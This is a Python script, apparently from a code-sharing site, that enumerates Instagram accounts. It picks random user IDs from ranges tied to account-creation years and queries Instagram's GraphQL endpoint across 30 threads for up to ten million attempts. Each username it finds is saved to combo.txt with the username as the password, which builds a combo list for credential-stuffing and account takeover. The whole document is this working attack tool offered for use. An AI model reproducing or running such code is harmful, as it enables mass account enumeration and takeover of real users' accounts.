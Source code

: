 from concurrent.futures import ThreadPoolExecutor
from asmix import Instagram
from requests import get
import requests
import random
import string
import json
import os
import ethan

executor = ThreadPoolExecutor(max_workers=30)
Z = '\033[1;31m' #احمر
R = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
F = '\033[2;32m' #اخضر
C = "\033[1;97m" #ابيض
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح.
E = '\033[1;31m'
B = '\033[2;36m'
G = '\033[1;32m'
S = '\033[1;33m'

ab=0

def kl():
 global ar ,ab
 try:
  LsD = ''.join(random.choices(string.ascii_letters + string.digits, k=4))
  
  UseriD = str(random.randrange(10000,uid))
  
  variables = json.dumps({"id": UseriD, "render_surface": "PROFILE"})
  data = {"lsd": LsD, "variables": variables, "doc_id": "25618261841150840"}
  
  response = requests.post("https://www.instagram.com/api/graphql", headers={"X-FB-LSD": LsD}, data=data)
  user= response.json()['data']['user']['username']


  pasw= user
  
  
  print(f'''
  {ab} / {user} / {pasw}
  ''')
  ab+=1
  with open('combo.txt', 'a') as f:
  	f.write(f'{user}:{pasw}'+'\n')
  
  
 except:
  ar+=1

  
print('''
1 -  2011
2 - 2012
3 - 2013
4 - 2014
5 - 2015
6 - 2016-2017
''')
num = int(input('choice<=> : '))


if num == 1:
    uid = 18957403
    iud = 10000
elif num == 2:
    uid = 287924624
    iud = 183140
elif num == 3:
    uid = 461365132
    iud = 180165130
elif num == 4:
    iud = 361365132
    uid = 1682665388
elif num == 5:
    iud = 1682665388
    uid = 3382665388
elif num == 6:
    iud = 2682665388
    uid = 8682665388
else:
    exit() 
for _ in range(10000000):
 executor.submit(kl)
